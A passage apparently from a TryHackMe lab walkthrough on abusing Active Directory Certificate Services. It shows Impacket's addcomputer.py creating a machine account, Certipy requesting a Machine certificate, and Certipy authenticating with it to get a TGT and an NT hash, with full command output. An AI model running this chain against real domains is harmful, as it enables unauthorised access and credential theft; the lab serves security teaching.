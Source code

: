 Certipy performs authentication with the certificate and uses Impacket to recover the NTLM hash associated with the UPN specified in the certificate. We could, of course, use something like [Rubeus](https://github.com/GhostPack/Rubeus) to request a TGT and then import that with [Mimikatz](https://github.com/gentilkiwi/mimikatz) for attacks, but this at least proves that the certificate is valid and can be used for Kerberos authentication.

Adding a Computer to the Domain

We need to add a new computer to the domain to generate a Machine certificate. Luckily, we don't have to add a physical computer to the network. We can use Impacket's [addcomputer.py script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) to simply make it look like we are adding a new computer:

AttackBox Terminal

```shell-session
(certipy) [thm@thm]$ addcomputer.py 'lunar.eruca.com/thm:Password1@' -method LDAPS -computer-name 'THMPC' -computer-pass 'Password1@'
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account THMPC$ with password Password1@.
```

Parameters explained:

-   **lunar.eruca.com/thm:Password1@** - We need to provide valid AD credentials in order to add a new computer.
-   **method** - The method of authentication. LDAPS will interface with the LDAP service on the domain controller.
-   **computer-name** - The name of our computer. This can be anything we like, as long as it is not the same as an existing computer object.
-   **computer-pass** - The password associated with our computer's machine account. We will need to impersonate this computer that we create, so make note of the password you chose here.

First, let's generate a certificate for the new computer we created. To use the machine account of said computer, you need to add a "$" at the end of the name:

AttackBox Terminal

```shell-session
(certipy) [thm@thm]$ certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 20
[*] Got certificate with DNS Host Name 'THMPC.lunar.eruca.com'
[*] Saved certificate and private key to 'thmpc.pfx'
```

Again we can verify that the certificate is valid by using Certipy:

AttackBox Terminal

```shell-session
(certipy) [thm@thm]$ certipy auth -pfx thmpc.pfx
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: thmpc$@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thmpc.ccache'
[*] Trying to retrieve NT hash for 'thmpc$'
[*] Got NT hash for 'thmpc$@lunar.eruca.com': 43460d636f269c709b20049cee36ae7a
```

